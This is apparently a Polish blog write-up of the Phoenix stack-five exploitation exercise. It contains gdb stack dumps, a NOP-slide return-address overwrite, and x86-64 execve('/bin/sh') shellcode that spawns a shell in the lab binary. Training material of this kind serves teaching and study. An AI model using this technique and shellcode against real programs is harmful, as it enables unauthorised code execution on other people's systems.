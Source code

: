 ```yaml
---
title: "Phoenix: Stack Five - czyli jak spędzić pół roku nad jednym crackme"
category: pl
tags: binary-exploitation
---
```


*Gdybym miałbym wybrać pracę   
za dowolnie jaką płacę   
chciałbym zostać pentesterem   
hackować NASA moim tosterem*

Jak to piszę jest godzina 23:33 zimowego czasu polskiego - poszedłbym już 
sobie słodko spać gdyby nie fakt, że mam już prawie ukończone hackme, które
jest moim nemesis - stack5 ze Phoenix (exploit-education). Tego wyzwania podjąłem
się praktycznie zaraz po dowiedzeniu się o nim z jednego z tutoriali LiveOverflow,
czyli jakieś pół roku temu. Nie potrafiąc rozwiązać zadania, rzuciłem je. Teraz,
kiedy wzięło mnie na uczenie się assemblera x86-64, postanowiłem ponownie podejść
do zadania. 

```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
If you’re happy and you know it, segmentation fault. If you’re happy and you kno
w it, segmentation fault. If you’re happy and you know it, and you really want t
o show it, if you’re happy and you know it, segmentation fault.

Segmentation fault
```

Mając odrobinę wiedzy więcej niż wcześniej, zacząłem od stworzenia
prostego skryptu w pythonie, który generował by mi ciąg kolejnychliter 
alfabetu w zależności od podanej długości

```python
#!/usr/bin/python

import sys
alphabet = 'abcdefghijklmnopqrstuvwyzABCDEFGHIJKLMNOPQRSTUVWYZ'

num = int(sys.argv[1])

for c in alphabet[:num]:
    sys.stdout.write(c*8)
```

Pozwoli mi to łatwo zobaczyć, gdzie są umieszczane dane na stosie.
Jak widać, nie jest to coś skomplikowanego, ale na tą potrzebę starcza.

```
./alphabet.py 16 | ./amd64/stack-five
Segmentation fault
./alphabet.py 15 | ./amd64/stack-five
```

Program się nie wykrzaczył - zapiszę sobie output do jakiegoś pliku,
żeby w vimie przy pomocy `:%!xxd` sobie później dopisać potrzebne dane.

```
mkdir stack5
./alphabet.py 15 > stack5/payload
```

Szybki teścik - `./amd64/stack-five < stack5/payload` działa.
Pora na najlepszego przyjaciela programisty - debuggera. Debugując już `stack-five` 
poraz n-ty, (gdzie n jest liczbą większą od liczby odcinków *Mody na Sukces*) wiem, 
że instrukcja po wywołaniu `gets()` ma adres `start_level+20`

```
(gdb) b *start_level+20
Breakpoint 1 at 0x4005d1
(gdb) r < stack5/payload 
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) x/18xg $rsp
0x7fffffffe5b0:	0x6161616161616161	0x6262626262626262
0x7fffffffe5c0:	0x6363636363636363	0x6464646464646464
0x7fffffffe5d0:	0x6565656565656565	0x6666666666666666
0x7fffffffe5e0:	0x6767676767676767	0x6868686868686868
0x7fffffffe5f0:	0x6969696969696969	0x6a6a6a6a6a6a6a6a
0x7fffffffe600:	0x6b6b6b6b6b6b6b6b	0x6c6c6c6c6c6c6c6c
0x7fffffffe610:	0x6d6d6d6d6d6d6d6d	0x6e6e6e6e6e6e6e6e
0x7fffffffe620:	0x6f6f6f6f6f6f6f6f	0x00007fffffffe600
0x7fffffffe630:	0x00007fffffffe650	0x00000000004005f7
(gdb) 
```

Widać tutaj wyraźnie input i trzy jakieś liczby.
Pierwszy wskazuje jakoś na końcówkę bufora, drugi jest wartością poprzedniego
adresu podstawy ramki, trzeci jest adresem powrotu do `main()`.

Po zastąpieniu pierwszej na 0x4141414141414141 (czytaj: 'AAAAAAAA') w sumie nic
ważnego się nie dzieje - niby jest segfault, ale dopiero pod koniec maina.
Następną wartość trzeba by było zmienić na coś sensownego - w przeciwnym wypadku
w trakcie wychodzenia z `start_level` pojawi się znowu segfault. Najlepiej najbliższym
adresem na stos.
Adres powrotu - gwóźdź programu - trzeba nakierować na shellcode, którego wpisaliśmy,
czyli na stos. 

Mechanikę zjeżdżalni można użyć tutaj - zamiast
dokładnego adresu shellcode'u, wstawić adres środka sporego ciągu instrukcji NOP,
na którego końcu jest nasz kod. Mówi się, że NOP nic nie robi, ale pamiętajcie, że
wskaźnik instrukcji sam się nie zinkrementuje. Na końcu tej 'zjeżdżalni' będzie
xCC, czyli instrukcja breakpoint - ta magiczna wartość, która przerywa działanie
programu i oddaje go debuggerowi (no chyba, że go nie ma, wtedy proces jest po
prostu zabijany :> ).
`:%!xxd -r`, `:w` i jedziemy dalej

```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe680 in ?? ()
(gdb) 
```

Czuję się niczym magik, mimo, że nie zrobiłem niczego odkrywczego. Co się
stanie gdy będę chciał odpalić ten program poza debuggerem?

`:!./amd64/stack-five < stack5/payload`
```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
/bin/bash: line 1:   603 Trace/breakpoint trap   ./amd64/stack-five < stack5/payload

shell returned 133

Press ENTER or type command to continue
```

Do szczęścia potrzeba tak niewiele :)
Nadszedł czas na amunicję grubego kalibru - własny shellcode. Dlatego, że
mam obraz Phoenix w wersji x86-64, muszę też stworzyć 64-bitową binarkę.

```
bits 64

call  LULZ
db    "/bin/sh", 0
LULZ:
mov   rax, 59
pop   rdi
xor   rsi, rsi
xor   rdx, rdx
syscall
```

Dla niewtajemniczonych:   
`call LULZ` wrzuca na stos adres rzeczy, która jest zaraz za nim i robi skok do LULZ,  
`mov rax, 59` execve() jest numerem odwołaniem systemowym numer 59  
`pop rdi` poprzednio wrzucony "/bin/sh" na stos zostaje zdjęte do rejestru rdi  
`xor rsi, rsi` zerowanie rejestru   
`syscall` - magia

`:!yasm shellcode.asm`
`:read shellcode`
Trzeba pamiętać jeszcze o usunięciu kodu xCC i znaku nowej linii

`r < stack5/payload`
```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.
process 614 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
[Inferior 1 (process 614) exited normally]
```

Próba poza gdb niestety zakończyła się niepowodzeniem. Prawdopodobnie zbyt mała
zjeżdżalnia albo zła wartość powrotu. Ale na tym się zatrzymałem za pierwszym
podejściem w tamtym roku, teraz MUSZĘ to zrobić!  
Druga próba - illegal instruction. Coś mi mówi, że jestem blisko.   
Trzecia próba - przesło gładko. Zwiększyłem długość nop slide i troszkę
skorygowałem adres powrotu. NARESZCIE!

```
svu@unassigned:~$ (cat stack5/payload; cat) | ./amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education

whoami
phoenix-amd64-stack-five
id
uid=1000(svu) gid=1000(svu) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-
amd64-stack-five) groups=405(phoenix-amd64-stack-five),24(cdrom),25(floppy),29(a
udio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(svu)
```

~~hmm... powłoka działa, ale program `stack-five` jest ma setuid, czyli ustawia
proces uruchamia się jako root, czyli powłoka też powinna być roota.~~
Nevermind, tak było w poprzedniku Phoenixa, czyli Protostar, teraz uid jest po
uruchomieniu programu ustawione na `phoenix-amd64-stack-five`

I tak, wiem, że zamiast   
`(cat stack5/payload; cat) | ./amd64/stack-five` mogłem napisać   
`cat stack5/payload - | ./amd64/stack-five`

*[LiveOverflow music plays](https://youtu.be/HSlhY4Uy8SA?t=729)*

<<EOF
